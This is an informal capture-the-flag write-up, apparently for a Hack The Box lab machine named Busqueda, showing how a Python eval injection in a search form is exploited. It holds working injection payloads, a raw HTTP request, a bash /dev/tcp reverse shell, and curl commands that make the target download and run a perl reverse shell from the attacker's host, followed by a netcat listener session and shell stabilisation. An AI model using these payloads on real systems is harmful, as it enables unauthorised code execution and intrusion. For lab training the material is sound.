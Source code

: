 And I started running tests, I was trying to find a way to enter the following payload: `__import__('os').system('whoami')` 

so I did it after a long time of eating poop I finally found the correct payload.

Payload: `aaa'), __import__('os').system('whoami') #`
First I enter some input and close the search function then I enter in a `,` to put in the intended payload after that I comment everything else with `#` because it's python and boom. Now you load it into burp and and enter it as the query parameter.


```

POST /search HTTP/1.1
Host: searcher.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Origin: http://searcher.htb

engine=Google&query=aaa'),+__import__('os').system('whoami')+%23

```

The result: `svc`.

Lets get a reverse shell.

So I tried running the regular `/bin/bash -i >& /dev/tcp/10.10.14.106/9999 0>&1` but it didn't, I tried decoding it from base64 and then running but failed again. So I thought of I to get a shell then I figured out I can download stuff to the shell, So downloaded the pentestmonkey perl reverse shell(https://github.com/pentestmonkey/perl-reverse-shell/blob/master/perl-reverse-shell.pl) to the target machine and ran it: 

```
(Window 1)$ python3 -m http.server 80

(Window 2)$ curl -s http://searcher.htb/search -d "engine=Google&query=aaa')%2c%20__import__('os').system('wget http://10.10.14.106/perl-reverse-shell.pl -O /dev/shm/perl-reverse-shell.pl')%20%23"

(Window 1)$ nc -lnvp 9998

(Window 2)$ curl -s http://searcher.htb/search -d "engine=Google&query=aaa')%2c%20__import__('os').system('perl /dev/shm/perl-reverse-shell.pl')%20%23"

```
Don't forget to edit the file.

```

(Window 1)$ nc -lnvp 9998
listening on [any] 9998 ...
connect to [10.10.14.106] from (UNKNOWN) [10.129.200.37] 35450
 11:50:02 up 16:45,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux busqueda 5.15.0-69-generic #76-Ubuntu SMP Fri Mar 17 17:19:29 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
uid=1000(svc) gid=1000(svc) groups=1000(svc)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
svc@busqueda:/$ ^Z
zsh: suspended  nc -lnvp 9998
                                                                                      
$ stty raw -echo; fg
[1]  + continued  nc -lnvp 9998

svc@busqueda:/$ export TERM=xterm

```